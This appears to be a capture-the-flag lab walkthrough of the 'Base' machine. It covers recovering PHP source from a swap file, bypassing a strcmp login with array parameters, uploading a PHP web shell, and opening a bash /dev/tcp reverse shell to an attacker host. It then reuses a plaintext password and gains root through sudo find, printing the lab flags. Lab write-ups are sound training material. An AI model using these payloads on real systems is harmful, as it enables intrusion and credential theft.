







# Introduction

The Base machine teaches us how useful it is to analyze PHP code and search fatal vulnerability.

# Enumeration

Starting with nmap:

```shell
└──╼ $nmap -sC -sV $SERVERIP -o enumeration/nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 19:12 CEST
Nmap scan report for 10.129.114.119
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.84 seconds
└──╼ $
```

Open browser:



Go to login:



Delete login.php from url:



The /login folder seems to be configured as listable, lets take a look on swp file:

```shell
└──╼ $wget http://10.129.114.119/login/login.php.swp
--2022-09-06 19:29:59--  http://10.129.114.119/login/login.php.swp
Connecting to 10.129.114.119:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16384 (16K)
Saving to: ‘login.php.swp’

login.php.swp                                   100%[=====================================================================================================>]  16,00K  --.-KB/s    in 0,03s   

2022-09-06 19:29:59 (462 KB/s) - ‘login.php.swp’ saved [16384/16384]

└──╼ $strings login.php.swp >> file.txt

└──╼ $cat file.txt 
b0VIM 8.0
root
base
/var/www/html/login/login.php
3210
#"! 
                  <input type="text" name="username" class="form-control" style="max-width: 30%;" id="username" placeholder="Your Username" required>
                <div class="form-group">
              <div class="row" align="center">
            <form id="login-form" action="" method="POST" role="form" style="background-color:#f8fbfe">
          <div class="col-lg-12 mt-5 mt-lg-0">
        <div class="row mt-2">
        </div>
          <p>Use the form below to log into your account.</p>
          <h2>Login</h2>
        <div class="section-title mt-5" >
      <div class="container" data-aos="fade-up">
    <section id="login" class="contact section-bg" style="padding: 160px 0">
    <!-- ======= Login Section ======= -->
  </header><!-- End Header -->
    </div>
      </nav><!-- .navbar -->
        <i class="bi bi-list mobile-nav-toggle"></i>
        </ul>
          <li><a class="nav-link scrollto action" href="/login.php">Login</a></li>
          <li><a class="nav-link scrollto" href="/#contact">Contact</a></li>
          <li><a class="nav-link scrollto" href="/#pricing">Pricing</a></li>
          <li><a class="nav-link scrollto" href="/#team">Team</a></li>
          <li><a class="nav-link scrollto" href="/#services">Services</a></li>
          <li><a class="nav-link scrollto" href="/#about">About</a></li>
          <li><a class="nav-link scrollto" href="/#hero">Home</a></li>
        <ul>
      <nav id="navbar" class="navbar">
      <!-- <a href="index.html" class="logo"></a>-->
      <!-- Uncomment below if you prefer to use an image logo -->
      <h1 class="logo"><a href="index.html">BASE</a></h1>
    <div class="container d-flex align-items-center justify-content-between">
  <header id="header" class="fixed-top">
  <!-- ======= Header ======= -->
<body>
</head>
  <link href="../assets/css/style.css" rel="stylesheet">
  <!-- Template Main CSS File -->
  <link href="../assets/vendor/swiper/swiper-bundle.min.css" rel="stylesheet">
  <link href="../assets/vendor/remixicon/remixicon.css" rel="stylesheet">
  <link href="../assets/vendor/glightbox/css/glightbox.min.css" rel="stylesheet">
  <link href="../assets/vendor/boxicons/css/boxicons.min.css" rel="stylesheet">
  <link href="../assets/vendor/bootstrap-icons/bootstrap-icons.css" rel="stylesheet">
  <link href="../assets/vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
  <link href="../assets/vendor/aos/aos.css" rel="stylesheet">
  <!-- Vendor CSS Files -->
  <link href="https://fonts.googleapis.com/css?family=Open+Sans:300,300i,400,400i,600,600i,700,700i|Raleway:300,300i,400,400i,500,500i,600,600i,700,700i|Poppins:300,300i,400,400i,500,500i,600,600i,700,700i" rel="stylesheet">
  <!-- Google Fonts -->
  <link href="../assets/img/apple-touch-icon.png" rel="apple-touch-icon">
  <link href="../assets/img/favicon.png" rel="icon">
  <!-- Favicons -->
  <meta content="" name="keywords">
  <meta content="" name="description">
  <title>Welcome to Base</title>
  <meta content="width=device-width, initial-scale=1.0" name="viewport">
  <meta charset="utf-8">
<head>
<html lang="en">
<!DOCTYPE html>
    }
        print("<script>alert('Wrong Username or Password')</script>");
    } else {
        }
            print("<script>alert('Wrong Username or Password')</script>");
        } else {
            header("Location: /upload.php");
            $_SESSION['user_id'] = 1;
        if (strcmp($password, $_POST['password']) == 0) {
    if (strcmp($username, $_POST['username']) == 0) {
    require('config.php');
if (!empty($_POST['username']) && !empty($_POST['password'])) {
session_start();
<?php
</html>
</body>
  <script src="../assets/js/main.js"></script>

```

This file checks the username/password combination that the user submits against the variables that are stored in the config file (wich is potentially communicating with a database) to see if they match. Now, here's the issue:

```html
if (strcmp($username , $_POST['username']) == 0) {
  if (strcmp($password, $_POST['password']) == 0) {
```

We see that developer is using the strcmp function to check the username and password, tis function is used to string compartation an returns 0 when the two imputted values are identical, but is is very insecure and bypassed without having a valid username and password.


This is due to the fact that if strcmp is given an empty array to compare against the stored password, it will
return NULL . In PHP the == operator only checks the value of a variable for equality, and the value of NULL
is equal to 0 . The correct way to write this would be with the === operator which checks both value and
type. These are prominently known as **"Type Juggling bugs"** 

In PHP, variables can be easily converted into arrays if we add [] in front of them. For example:
```html
$username = "Admin"
$username[] = "Admin"
```

Adding [] changes the variable $username to an array, which means that strcmp() will compare the array instead of a string:

```html
if (strcmp($username , $_POST['username']) == 0) {
if (strcmp($password, $_POST['password']) == 0) {
```

In the above code we see that if the comparison succeeds and returns 0 , the login is successful. If we
convert those variables into empty arrays ( $username[] & $password[] ), the comparison will return
NULL , and NULL == 0 will return true, causing the login to be successful.

Let's put in practice with burpsuite. On login screen, put admin:pass as credentials and send POST to repeater, change on repetear the following values: ```username=admin&password=pass``` for arrays as explained before ```username[]=admin&password[]=pass```:



Seems works fine, so, let's change to POST code on proxy tab and forward steps. Login bypassed:



# Foothold

Create a test.php file:
```shell
└──╼ $echo "<?php phpinfo(); ?>" > test.php
```

Upload test.php file and check with gobuster where uploads are stored:
```shell
└──╼ $gobuster dir --url http://$SERVERIP/ --wordlist /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.114.119/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/06 20:22:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/_uploaded            (Status: 301) [Size: 320] [--> http://10.129.114.119/_uploaded/]
/assets               (Status: 301) [Size: 317] [--> http://10.129.114.119/assets/]   
/forms                (Status: 301) [Size: 316] [--> http://10.129.114.119/forms/]    
/login                (Status: 301) [Size: 316] [--> http://10.129.114.119/login/]    
/server-status        (Status: 403) [Size: 279]                                       
                                                                                      
===============================================================
2022/09/06 20:24:09 Finished
===============================================================
```

Lets check _uploaded/test.php folder on browser:



Let us now create a PHP web shell which uses the system() function and a cmd URL parameter to execute system commands.
After the file has been uploaded, click on it in the browser and it will show a blank page, however, if we add a system command in the cmd URL parameter, the PHP backend will execute its value, e.g: ?cmd=id :



Now that we know we can execute code on the remote system, let's attempt to get a reverse shell. The
current request is an HTTP GET request and we can attempt to use it to send a command that will grant us a
reverse shell on the system, however, it is likely that one might encounter errors due to the presence of
special characters in the URL (even after URL encoding them). Instead, let us convert this GET request to a
POST request and send the reverse shell command as an HTTP POST parameter.
Right-click inside the Request body box, and click on the "Change request method" in order to convert this
HTTP GET request to an HTTP POST request.

Send the same request to burpsuite, on proxy tab, right click and select "Change request method" This will change from HTTP GET Method to HTTP POST, this will be able to change cmd command and send to server with HTTP POST. 

change id cmd command for reverseshell: ```/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.104/443 0>&1'``` type them on cmd=, select command and pres CTR+U, this shortcut direct encoding cmd command to this: ```/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.104/443+0>%261'```


On our computer:

```shell
└──╼ #nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.104] from (UNKNOWN) [10.129.114.119] 56326
bash: cannot set terminal process group (1177): Inappropriate ioctl for device
bash: no job control in this shell
www-data@base:/var/www/html/_uploaded$ 
```

# Lateral Movement

Lets take a look on www-data dir:

```shell
www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php
cat /var/www/html/login/config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

Search for other local accounts on server and try to login with the same admin password:

```shell
www-data@base:/var/www/html/_uploaded$ ls /home
ls /home
john
www-data@base:/var/www/html/_uploaded$ 
```

Try to ssh login with john account:
```shell
└──╼ $ssh john@$SERVERIP
john@10.129.114.119's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep  6 19:17:26 UTC 2022

  System load:  0.0               Processes:             108
  Usage of /:   62.7% of 2.83GB   Users logged in:       0
  Memory usage: 8%                IP address for ens160: 10.129.114.119
  Swap usage:   0%


10 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


john@base:~$ cat user.txt
f54846c258f3b4612f78a819573d158e
john@base:~$ 

```

# Privilege Escalation

Check sudo privilegies:

```shell
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
john@base:~$ 

```

It is rarely a good idea to allow a system user to run a binary with elevated privileges, as the default binaries
on Linux often contain parameters that can be used to run system commands. A good list of these binaries
can be found in the [GTFOBins](https://gtfobins.github.io/) website.

Acording GTFObins site run find command in order to privesc:
```shell
john@base:~$     sudo find . -exec /bin/sh \; -quit
# 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
51709519ea18ab37dd6fc58096bea949
# 
```

and Volià!
